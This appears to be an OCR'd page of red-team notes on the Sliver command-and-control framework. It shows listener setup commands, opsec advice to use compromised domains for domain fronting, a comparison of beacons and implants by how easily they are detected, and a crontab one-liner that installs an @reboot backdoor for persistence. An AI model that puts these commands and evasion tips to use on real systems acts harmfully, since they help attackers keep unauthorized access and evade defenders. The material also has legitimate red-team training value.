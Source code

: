 ### Listeners Setup
**MTLS listener:**
```bash
sliver > listener mtls --host 192.168.1.10
```

**HTTPS listener:**
```bash
sliver > listener https --host 192.168.1.10
```

### Operational Security
- **Domain Fronting:** Use compromised legitimate domains
- **Encryption:** Always use HTTPS/mTLS
- **Rotation:** Regularly change infrastructure

### Implant Types
| Feature        | Beacons                     | Implants                  |
|---------------|----------------------------|--------------------------|
| Activity      | Low-noise, asynchronous     | Constant connection       |
| Detection Risk | Low                        | Higher                   |
| Flexibility   | Modular, dynamic commands  | Predefined functionality |
| Use Case      | Stealthy operations        | Immediate interaction    |

**Key Differences:**
- **Beacons:** 
  - Lightweight callbacks
  - On-demand tasking
  - Better for evasion

- **Implants:**
  - Persistent connection
  - Faster response
  - Easier to detect

## 5. Persistence Techniques

### Overview
The most effective persistence techniques include:
1. **Trusted binary hijacking**
2. **Custom service creation** 
3. **Crontab entries** (temporary only)

*Note:* Crontab should only be used for quick temporary access. It's easily detected via `crontab -l`.

---

### 1. Crontab Method (Temporary)
```bash
# Add persistence
(crontab -l 2>/dev/null; echo "@reboot /path/to/backdoor") | crontab -

# Verify
crontab -l
```

---